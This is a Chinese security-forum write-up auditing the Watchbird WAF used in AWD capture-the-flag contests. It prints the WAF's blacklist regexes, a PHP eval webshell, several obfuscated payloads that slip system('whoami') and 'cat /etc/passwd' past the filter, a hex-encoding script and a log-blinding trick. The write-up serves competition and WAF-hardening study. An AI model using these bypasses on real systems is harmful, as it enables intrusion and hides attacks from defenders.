 ```yaml
---
title: 奇安信攻防社区 - 对 AWD 流行开源 WAF（1） -- Watchbird 的白盒审计
url: https://forum.butian.net/share/2817
clipped_at: 2024-03-29 09:38:28
category: default
tags: 
 - forum.butian.net
---
```



# 奇安信攻防社区 - 对 AWD 流行开源 WAF（1） -- Watchbird 的白盒审计

# 简介

众所周知，AWD 攻防是一个节奏非常快，时间比较紧张的比赛模式。而如果在这种情况下，一些队伍在自己的靶机上部署了 waf 和流量监控脚本，通常来说是很难在比赛过程中绕过的。于是提前对这些应用广泛的开源 waf 进行审计，拿到一些绕过的 trick，可以在比赛中获取优势。

**Watchbird 项目地址：[https://github.com/leohearts/awd-watchbird](https://github.com/leohearts/awd-watchbird)**

# 测试过程

先给大家展示一下这个 waf 的后台日志部分：

在右下角绿色区域，是记录不受拦截的流量日志（正常流量或绕过 waf 的流量）；  
其他三个划了红圈的区域，则是拦截到攻击的流量。  
![image.png](assets/1711676308-e89c3a99112458980211fb377bfb5693.png)

这边就以藏有一句话木马后门 \\<?php eval ($\_GET \['file'\]); ?>，且包含了 watchbird 的一个 index.php 为例子，展开如下测试。

## RCE 黑名单突破绕过

如下，这是源码中对 rce 的黑名单，可以看到绝大多数常用的危险函数都被过滤了，包括用于编码转换的 base64 和 rot13 的函数：

```php
public $rce_blacklist = "/\`|var_dump|str_rot13|serialize|base64_encode|base64_decode|strrev|eval\(|assert|file_put_contents|fwrite|curl_exec\(|dl\(|readlink|popepassthru|preg_replace|preg_filter|mb_ereg_replace|register_shutdown_function|register_tick_function|create_function|array_map|array_reduce|uasort|uksort|array_udiff|array_walk|call_user_func|array_filter|usort|stream_socket_server|pcntl_exec|passthru|exec(|system(|chroot\(|scandir\(|chgrp\(|chown|shell_exec|proc_open|proc_get_status|popen\(|ini_alter|ini_restore|ini_set|LD_PRELOAD|ini_alter|ini_restore|ini_set|base64 -d/i";
```

但是如果根据黑名单去过滤的话，一旦忘记了 ban 掉某个危险函数（像这个黑名单里缺少了 putenv () 之类的函数），或者攻击者在格式上有所突破的话（类似 HTTP 分段请求注入，也可以绕过很多 waf），那就可以被随意攻击了。

### Trick 1：取反绕过

执行 system ('whoami');

```php
payload:?file=(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);
```

可以看到成功在前端输出 whoami 的执行结果，并且后端日志检测为安全。  
![image.png](assets/1711676308-cc0cc589d46bf19506dfd26c725e161c.png)

![image.png](assets/1711676308-e4b767c1f9c1eeee296fdb9debb7f4ac.png)

### Trick 2：字符串拼接绕过

```php
payload: ?file=(sy.(st).em)(whoami);
```

*图略，结果同 Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 3：内联注释绕过

有点像绕 mysql 时候，加 /*\\*/ 之类的字符绕过检测。

```php
payload: ?file=(sy./\*caixukun\*/(st)/\*caixukun\*/.em)/\*caixukun\*/(wh./\*caixukun\*/(oa)/\*caixukun\*/.mi);
```

*图略，结果同 Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 4：对函数进行编码转换绕过

```php
payload:?file="\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");
```

![image.png](assets/1711676308-a430d215741a04841e79c66d3807c8b8.png)

![image.png](assets/1711676308-deba5df4a6d4211305dcd6165833ba73.png)  
给大家留一个编码转换脚本：

```python
def string_to_hex_str(s):  
    # 编码为字节，然后格式化每个字节为十六进制字符串，并连接它们  
    return ''.join('\\x{:02x}'.format(b) for b in s.encode('utf-8'))  

s = "system"  
hex_encoded_str = string_to_hex_str(s)  
print(hex_encoded_str) # 输出: \x73\x79\x73\x74\x65\x6d
```

## SQL 注入黑名单突破绕过

这是 sql 语句的黑名单，相对 rce 黑名单来说，相信大家能感觉出来它有点形同虚设：

```php
public $sql_blacklist = "/drop |dumpfile\b|INTO FILE|union select|outfile\b|load_file\b|multipoint\(/i";
```

比如 union select，是放在一起过滤而不是分开检测，在两个单词中间多加几个空格甚至都能绕过。

## 文件上传点的理论突破

这个 waf 的检测恶意文件使用了白名单，比较难绕，但是可以注意到，他是先上传文件，然后再检测，检测到有问题再删除。

![image.png](assets/1711676308-01ebfe19a8bb3710e96a7654421e0151.png)  
于是可以用条件竞争的方式，去试着边写一个能生成新木马的 php 文件，边对它进行访问，最后成功创建一个新 shell。

但是这只存在于理论，因为一是 awd 时间比较短，条件竞争产出比较慢，可能来不及成功；二是该 waf 自带一个 ddos 防御功能，在爆破的时候七成以上数据包都会被 waf 拦截掉。

## 绕过流量日志的监测

可以看到，单个日志大小最多为 4w 个字符  
![image.png](assets/1711676308-18e6545396d4a48c5c55601781dbaf99.png)

再来到源码 533 行，可以看到在记录日志时候，如果日志大小超出了上述最大值，就会进行一次全部删除。

![image.png](assets/1711676308-05f9617f935a4538cc0236d17afb0b54.png)  
根据这个特性，如果我们的测试 payload 数据包大于这个值，填入很多很大的脏数据，那它的后台将不会显示有这条日志记录（但是 waf 对关键词还是照样匹配拦截的）。

具体效果如下：我用 bp 抓包，包里放一堆 python 生成的脏数据，点击发送  
![image.png](assets/1711676308-6e379c85d168e22a860e93e5ae445793.png)

可以看到日志后台直接被致盲，不会记录任何东西

![image.png](assets/1711676308-0ba54f8d3f881fce2527f713b01327d1.png)

# 总结

比赛过程中如果遇到这样的 watchbird，可以直接拿本文的思路去试试。  
类似这样基于黑白名单的 waf，再加上项目年久失修（虽然也就一两年），往往突破口还是比较多的，所以现在正经大厂商的 waf 都在往语义识别，AI 识别上靠拢。
